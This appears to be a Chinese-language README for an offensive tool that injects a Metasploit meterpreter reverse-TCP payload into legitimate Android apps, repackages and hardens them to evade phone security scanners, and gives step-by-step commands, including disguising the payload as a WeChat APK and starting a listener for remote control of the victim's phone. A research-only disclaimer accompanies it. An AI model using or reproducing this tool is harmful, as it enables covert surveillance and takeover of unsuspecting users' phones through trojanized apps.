 # 520_APK_HOOK


## 介绍


* 将msf生成的payload，注入到一个正常的apk文件中，重新打包后进行加固，bypass手机安全管家的检测。

* 项目地址: [https://github.com/cleverbao/520apkhook](https://github.com/cleverbao/520apkhook)

* 作者: BaoGuo


## 优点

* 相比于原始的msf远控，此版本app在进行远控时，被注入的app可以正常运行，原始msf生成的app程序，只在桌面上有一个图标，点击后没有任何app界面。

* 注入后的app在安装时，手机管家不会有任何安全提示，原始msf生成的app程序，安装时手机管家会有安全警示。

* 被注入后的app可以正常运行，msf正常在线，继承app的权限。


## 重点说明

* 本项目仅用于安全研究, 禁止利用脚本进行攻击, 使用本脚本产生的一切问题和本人无关.

* 部分被加固过的app无法进行注入，已测试网易系列💔，360系列💔，腾讯系列❤️，其他的请自行测试。

## 项目依赖

* 本项目参考以下项目

* [apk-steady](https://gitee.com/openjk/apk-steady)

* [apk-jiagu](https://gitee.com/openjk/apk-jiagu)

* [APK Infector](https://github.com/PushpenderIndia/apkinfector)

## 使用


1. 使安装python3, Java环境.

2. 使用python3生成apk文件, 需要指定msf远控链接的IP和端口.

```sh

╭─ ~/520apkhook                                                                                    х INT Py py3 16:36:11
╰─❯ python main.py --lhost 192.168.0.106 --lport 1433 -p android/meterpreter/reverse_tcp -n 微信_7.0.22.apk

```

![注入App](./images/520ApkHook.svg)

3. 使用msfconsole加载handler.rc进行服务端监听

```sh

╭─ ~/520apkhook                                                                                    х INT Py py3 16:36:11
╰─❯ msfconsole -r WorkDir/handler.rc

```

![注入App](./images/StartMsf.svg)

4. 将生成的apk文件在安卓手机进行安装, 即可完成对目标的控制

![安装App](./images/InstallApp.webp)

5. 成功后, 可以在msf中进行远程控制

